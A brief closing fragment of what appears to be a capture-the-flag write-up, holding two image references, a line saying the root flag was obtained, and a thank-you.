
Thus,we get the root flag.

Thanks!!